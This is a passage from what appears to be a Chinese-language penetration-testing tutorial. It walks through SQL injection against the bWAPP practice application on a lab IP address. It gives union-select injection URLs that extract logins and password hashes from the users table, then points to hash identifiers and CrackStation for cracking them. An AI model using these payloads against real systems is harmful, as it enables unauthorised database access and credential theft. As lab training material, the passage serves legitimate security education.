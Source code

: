 `Char()` allows SQL injection to insert statements in MySQL without using double quotes (`""`).

15.  使用`http://192.168.56.101/bWAPP/sqli_1.php?title=1' union select 1,login,3,4,5,6,7 from users-- -`可以查看`users`表的`email`列，如*步骤 14*所述：

![](img/a9404840-c8c5-414b-9f68-c82e4538f851.png)

16.  要检索密码，请将 URL 调整为`http://192.168.56.101/bWAPP/sqli_1.php?title=1' union select 1,password,3,4,5,6,7 from users-- -`：

![](img/b8d3bb1a-b5fb-4e19-abd2-b089848d861d.png)

17.  现在，我们有了密码的散列。我们可以使用在线或离线哈希标识符来确定哈希类型：

![](img/14790ef2-d5ac-49cc-bf51-6156bbc9dcd4.png)

18.  此外，您还可以使用在线散列解码器，例如**CrackStation**（[https://crackstation.net/](https://crackstation.net/) ）进行解密：

![](img/81cb42b8-e5a9-44ee-9c4d-fb4203a05eb5.png)
